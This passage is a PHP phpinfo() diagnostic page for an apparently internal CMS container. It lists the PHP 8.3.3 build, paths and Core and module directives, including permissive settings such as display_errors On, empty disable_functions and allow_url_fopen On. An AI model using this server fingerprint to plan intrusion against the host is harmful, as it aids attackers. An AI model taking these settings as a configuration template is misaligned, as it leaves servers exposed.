mlvNw+8qJTjm+drWQwaAXO9KMuWncc1GBMXKkGeV/pU5ZxFIsTvzovOCu3HvDnOE7NTu3rLr+PE8fy6+IEX9947YM4n/+LbPT/88R8QqoYAuVSDrZLFKcYso2AcLBIeGDPu6h3M+yqvIE/4Y6w4LdUfi+jcr86L75KvC9+PcbVfd1hCi6U7Innwk1/+Q5rcoetsdyBg3s9aCmivBsNFifGfG9zCJUFiztmpEXAbqhMgr6SLWBPu9R1enRfm1ktrC6cVYWH+/Mqg43x6sYK1edaCex7vkRZHZkF+6P6NkXvvi/TpLNBUaqTtdcsoLtIrVTcem2EHDh7m2uq0ikMINBvafOmazzt+BkGMW9CF70DndPsOaJqb38Y1oXjdCYHOiqwbPofrKid6thMAlnxxPtMy6w4K0ubNhq73U5wd5PtVleCTd+50D2CEafLloqixyv0ufMcOGq64CVaMYN2119gfAdPpuscKOxWgCMDwxfm0pvzBhx9siRLoFt3ca7Ikf+x2yygaYzHdTSi7IT9y8fMJ2Lpdhg+ZCPA2+f05d1A88mBLHzQaoA1dL6ohVLJGi+1uQj8XQMyHIMgaGT6eDxuozMkD294LRaB7CPI27DLHQSskSFRvGa30O/zndF4fF0DMhwa//9//iZ2DcILqN7xBHn1oUweNn7eJ3WO9QHvdMlrMsphKEj8XQPgpuHVVMtGOgF0hC9CGTqbb2kHOzXx73aKiuiymEv2x22ICMYYeWSALBQ7RQ0fkoZIr4DnRtS3ohzf1dNzTG9d0PcwMLahZO8UyKTMm38wteratSVtkplq4oWj0PcfrEinPhYg14H+hvdIwCVs1bvb6O+UBMYFGl90d0LRGLRDgoHEUwYnXDniQStocTVUwfPLaKQGA/RoWOmkvtnsaG8unK+PWMKlH5e+Lznp03N27RdO0TkxmYNZKszYBlyfI3RpjsQkmMOo8ls4Wsx1EKcEVAEvayyNoeRzsO2RI+93PNRLesGYtNpBhL4l/prlgZz5ob0mbtZVFhWC301d0EuQgAHPgS7D9hssTHKyMbRfLptF213NBDRuoaqxNA2yh2VUBDnxJ1M1yRW6gOgt2x64gqXK7ht1yOWyW1+wl7bYXvhUygQXgit4KuVDuBGzSbA2bmmtayNzpRgJOGu7XosHFChZzvrGTiUKt5UMiVsmbmtsCb3+2lZmwm3hFNsA/CiYdKyfhYx3Aws8urp8nsJM72naGCG8zYwZMecjk/WHVVRbsMwU6tBVQsWJS2sNDlrgVTO0RE/vzKQtuN2+/85k5PxlUaL75D3BZwKss+JUqSFRAO/F7Eqlkmj+2gbrgYE8rZFluu+P3pOGsyWCG/Y9/GR8exC+vYfc5flxgzRdDGsDEz/8AJsxwQcBUKPCtmKOMFJO8OKMgF8r3b3sKkAm69TN+2OZCAm5ID/g9XPypwX29ufWgudq0urrKes/8nPkxgy1bdg6z/or/SFc2mzV/xs+6HwySTmdYJp2dpaWKEregYrVfn9/B0xkD2U6+e+sOaHqImTfLrycUOIZM1hJwC3oemPXbi/y5PnsrJ136bUa8pxu69BklmANWwDRkgR1wmwVaglyi3Nz6JLQ+ZG5NxQsgNdAhmIfJN7wxgoWg9fxzPQ+c/g9YAIXgeUKCyipJO4uR/wswAOIwB/5IgxvbAAAAAElFTkSuQmCC" alt="PHP logo" /></a><h1 class="p">PHP Version 8.3.3</h1>
</td></tr>
</table>
<table>
<tr><td class="e">System </td><td class="v">Linux legacy-intranet-cms-6f7bf5db84-gb975 5.15.0-124-generic #134-Ubuntu SMP Fri Sep 27 20:20:17 UTC 2024 x86_64 </td></tr>
<tr><td class="e">Build Date </td><td class="v">Feb 16 2024 21:24:29 </td></tr>
<tr><td class="e">Build System </td><td class="v">Linux - Docker </td></tr>
<tr><td class="e">Build Provider </td><td class="v">https://github.com/docker-library/php </td></tr>
<tr><td class="e">Configure Command </td><td class="v"> &#039;./configure&#039;  &#039;--build=x86_64-linux-musl&#039; &#039;--with-config-file-path=/usr/local/etc/php&#039; &#039;--with-config-file-scan-dir=/usr/local/etc/php/conf.d&#039; &#039;--enable-option-checking=fatal&#039; &#039;--with-mhash&#039; &#039;--with-pic&#039; &#039;--enable-mbstring&#039; &#039;--enable-mysqlnd&#039; &#039;--with-password-argon2&#039; &#039;--with-sodium=shared&#039; &#039;--with-pdo-sqlite=/usr&#039; &#039;--with-sqlite3=/usr&#039; &#039;--with-curl&#039; &#039;--with-iconv=/usr&#039; &#039;--with-openssl&#039; &#039;--with-readline&#039; &#039;--with-zlib&#039; &#039;--enable-phpdbg&#039; &#039;--enable-phpdbg-readline&#039; &#039;--with-pear&#039; &#039;build_alias=x86_64-linux-musl&#039; </td></tr>
<tr><td class="e">Server API </td><td class="v">CGI/FastCGI </td></tr>
<tr><td class="e">Virtual Directory Support </td><td class="v">disabled </td></tr>
<tr><td class="e">Configuration File (php.ini) Path </td><td class="v">/usr/local/etc/php </td></tr>
<tr><td class="e">Loaded Configuration File </td><td class="v">(none) </td></tr>
<tr><td class="e">Scan this dir for additional .ini files </td><td class="v">/usr/local/etc/php/conf.d </td></tr>
<tr><td class="e">Additional .ini files parsed </td><td class="v">/usr/local/etc/php/conf.d/docker-php-ext-sodium.ini
 </td></tr>
<tr><td class="e">PHP API </td><td class="v">20230831 </td></tr>
<tr><td class="e">PHP Extension </td><td class="v">20230831 </td></tr>
<tr><td class="e">Zend Extension </td><td class="v">420230831 </td></tr>
<tr><td class="e">Zend Extension Build </td><td class="v">API420230831,NTS </td></tr>
<tr><td class="e">PHP Extension Build </td><td class="v">API20230831,NTS </td></tr>
<tr><td class="e">Debug Build </td><td class="v">no </td></tr>
<tr><td class="e">Thread Safety </td><td class="v">disabled </td></tr>
<tr><td class="e">Zend Signal Handling </td><td class="v">enabled </td></tr>
<tr><td class="e">Zend Memory Manager </td><td class="v">enabled </td></tr>
<tr><td class="e">Zend Multibyte Support </td><td class="v">provided by mbstring </td></tr>
<tr><td class="e">Zend Max Execution Timers </td><td class="v">disabled </td></tr>
<tr><td class="e">IPv6 Support </td><td class="v">enabled </td></tr>
<tr><td class="e">DTrace Support </td><td class="v">disabled </td></tr>
<tr><td class="e">Registered PHP Streams</td><td class="v">https, ftps, compress.zlib, php, file, glob, data, http, ftp, phar</td></tr>
<tr><td class="e">Registered Stream Socket Transports</td><td class="v">tcp, udp, unix, udg, ssl, tls, tlsv1.0, tlsv1.1, tlsv1.2, tlsv1.3</td></tr>
<tr><td class="e">Registered Stream Filters</td><td class="v">zlib.*, convert.iconv.*, string.rot13, string.toupper, string.tolower, convert.*, consumed, dechunk</td></tr>
</table>
<table>
<tr class="v"><td>
<a href="http://www.zend.com/"><img border="0" src="data:image/png;base64,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" alt="Zend logo" /></a>
This program makes use of the Zend Scripting Language Engine:<br />Zend Engine v4.3.3, Copyright (c) Zend Technologies
</td></tr>
</table>
<hr />
<h1>Configuration</h1>
<h2><a name="module_cgi-fcgi" href="#module_cgi-fcgi">cgi-fcgi</a></h2>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">cgi.check_shebang_line</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">cgi.discard_path</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">cgi.fix_pathinfo</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">cgi.force_redirect</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">cgi.nph</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">cgi.redirect_status_env</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">cgi.rfc2616_headers</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">fastcgi.logging</td><td class="v">On</td><td class="v">On</td></tr>
</table>
<h2><a name="module_core" href="#module_core">Core</a></h2>
<table>
<tr><td class="e">PHP Version </td><td class="v">8.3.3 </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">allow_url_fopen</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">allow_url_include</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">arg_separator.input</td><td class="v">&amp;</td><td class="v">&amp;</td></tr>
<tr><td class="e">arg_separator.output</td><td class="v">&amp;</td><td class="v">&amp;</td></tr>
<tr><td class="e">auto_append_file</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">auto_globals_jit</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">auto_prepend_file</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">browscap</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">default_charset</td><td class="v">UTF-8</td><td class="v">UTF-8</td></tr>
<tr><td class="e">default_mimetype</td><td class="v">text/html</td><td class="v">text/html</td></tr>
<tr><td class="e">disable_classes</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">disable_functions</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">display_errors</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">display_startup_errors</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">doc_root</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">docref_ext</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">docref_root</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">enable_dl</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">enable_post_data_reading</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">error_append_string</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">error_log</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">error_log_mode</td><td class="v">0644</td><td class="v">0644</td></tr>
<tr><td class="e">error_prepend_string</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">error_reporting</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">expose_php</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">extension_dir</td><td class="v">/usr/local/lib/php/extensions/no-debug-non-zts-20230831</td><td class="v">/usr/local/lib/php/extensions/no-debug-non-zts-20230831</td></tr>
<tr><td class="e">fiber.stack_size</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">file_uploads</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">hard_timeout</td><td class="v">2</td><td class="v">2</td></tr>
<tr><td class="e">highlight.comment</td><td class="v"><font style="color: #FF8000">#FF8000</font></td><td class="v"><font style="color: #FF8000">#FF8000</font></td></tr>
<tr><td class="e">highlight.default</td><td class="v"><font style="color: #0000BB">#0000BB</font></td><td class="v"><font style="color: #0000BB">#0000BB</font></td></tr>
<tr><td class="e">highlight.html</td><td class="v"><font style="color: #000000">#000000</font></td><td class="v"><font style="color: #000000">#000000</font></td></tr>
<tr><td class="e">highlight.keyword</td><td class="v"><font style="color: #007700">#007700</font></td><td class="v"><font style="color: #007700">#007700</font></td></tr>
<tr><td class="e">highlight.string</td><td class="v"><font style="color: #DD0000">#DD0000</font></td><td class="v"><font style="color: #DD0000">#DD0000</font></td></tr>
<tr><td class="e">html_errors</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">ignore_repeated_errors</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">ignore_repeated_source</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">ignore_user_abort</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">implicit_flush</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">include_path</td><td class="v">.:/usr/local/lib/php</td><td class="v">.:/usr/local/lib/php</td></tr>
<tr><td class="e">input_encoding</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">internal_encoding</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">log_errors</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">mail.add_x_header</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">mail.force_extra_parameters</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">mail.log</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">mail.mixed_lf_and_crlf</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">max_execution_time</td><td class="v">30</td><td class="v">30</td></tr>
<tr><td class="e">max_file_uploads</td><td class="v">20</td><td class="v">20</td></tr>
<tr><td class="e">max_input_nesting_level</td><td class="v">64</td><td class="v">64</td></tr>
<tr><td class="e">max_input_time</td><td class="v">-1</td><td class="v">-1</td></tr>
<tr><td class="e">max_input_vars</td><td class="v">1000</td><td class="v">1000</td></tr>
<tr><td class="e">max_multipart_body_parts</td><td class="v">-1</td><td class="v">-1</td></tr>
<tr><td class="e">memory_limit</td><td class="v">128M</td><td class="v">128M</td></tr>
<tr><td class="e">open_basedir</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">output_buffering</td><td class="v">0</td><td class="v">0</td></tr>
<tr><td class="e">output_encoding</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">output_handler</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">post_max_size</td><td class="v">8M</td><td class="v">8M</td></tr>
<tr><td class="e">precision</td><td class="v">14</td><td class="v">14</td></tr>
<tr><td class="e">realpath_cache_size</td><td class="v">4096K</td><td class="v">4096K</td></tr>
<tr><td class="e">realpath_cache_ttl</td><td class="v">120</td><td class="v">120</td></tr>
<tr><td class="e">register_argc_argv</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">report_memleaks</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">report_zend_debug</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">request_order</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">sendmail_from</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">sendmail_path</td><td class="v">/usr/sbin/sendmail -t -i</td><td class="v">/usr/sbin/sendmail -t -i</td></tr>
<tr><td class="e">serialize_precision</td><td class="v">-1</td><td class="v">-1</td></tr>
<tr><td class="e">short_open_tag</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">SMTP</td><td class="v">localhost</td><td class="v">localhost</td></tr>
<tr><td class="e">smtp_port</td><td class="v">25</td><td class="v">25</td></tr>
<tr><td class="e">sys_temp_dir</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">syslog.facility</td><td class="v">LOG_USER</td><td class="v">LOG_USER</td></tr>
<tr><td class="e">syslog.filter</td><td class="v">no-ctrl</td><td class="v">no-ctrl</td></tr>
<tr><td class="e">syslog.ident</td><td class="v">php</td><td class="v">php</td></tr>
<tr><td class="e">unserialize_callback_func</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">upload_max_filesize</td><td class="v">2M</td><td class="v">2M</td></tr>
<tr><td class="e">upload_tmp_dir</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">user_dir</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">user_ini.cache_ttl</td><td class="v">300</td><td class="v">300</td></tr>
<tr><td class="e">user_ini.filename</td><td class="v">.user.ini</td><td class="v">.user.ini</td></tr>
<tr><td class="e">variables_order</td><td class="v">EGPCS</td><td class="v">EGPCS</td></tr>
<tr><td class="e">xmlrpc_error_number</td><td class="v">0</td><td class="v">0</td></tr>
<tr><td class="e">xmlrpc_errors</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">zend.assertions</td><td class="v">1</td><td class="v">1</td></tr>
<tr><td class="e">zend.detect_unicode</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">zend.enable_gc</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">zend.exception_ignore_args</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">zend.exception_string_param_max_len</td><td class="v">15</td><td class="v">15</td></tr>
<tr><td class="e">zend.max_allowed_stack_size</td><td class="v">0</td><td class="v">0</td></tr>
<tr><td class="e">zend.multibyte</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">zend.reserved_stack_size</td><td class="v">0</td><td class="v">0</td></tr>
<tr><td class="e">zend.script_encoding</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">zend.signal_check</td><td class="v">Off</td><td class="v">Off</td></tr>
</table>
<h2><a name="module_ctype" href="#module_ctype">ctype</a></h2>
<table>
<tr><td class="e">ctype functions </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_curl" href="#module_curl">curl</a></h2>
<table>
<tr><td class="e">cURL support </td><td class="v">enabled </td></tr>
<tr><td class="e">cURL Information </td><td class="v">8.5.0 </td></tr>
<tr><td class="e">Age </td><td class="v">10 </td></tr>
<tr><td class="e">Features </td></tr>
<tr><td class="e">AsynchDNS </td><td class="v">Yes </td></tr>
<tr><td class="e">CharConv </td><td class="v">No </td></tr>
<tr><td class="e">Debug </td><td class="v">No </td></tr>
<tr><td class="e">GSS-Negotiate </td><td class="v">No </td></tr>
<tr><td class="e">IDN </td><td class="v">Yes </td></tr>
<tr><td class="e">IPv6 </td><td class="v">Yes </td></tr>
<tr><td class="e">krb4 </td><td class="v">No </td></tr>
<tr><td class="e">Largefile </td><td class="v">Yes </td></tr>
<tr><td class="e">libz </td><td class="v">Yes </td></tr>
<tr><td class="e">NTLM </td><td class="v">Yes </td></tr>
<tr><td class="e">NTLMWB </td><td class="v">No </td></tr>
<tr><td class="e">SPNEGO </td><td class="v">No </td></tr>
<tr><td class="e">SSL </td><td class="v">Yes </td></tr>
<tr><td class="e">SSPI </td><td class="v">No </td></tr>
<tr><td class="e">TLS-SRP </td><td class="v">Yes </td></tr>
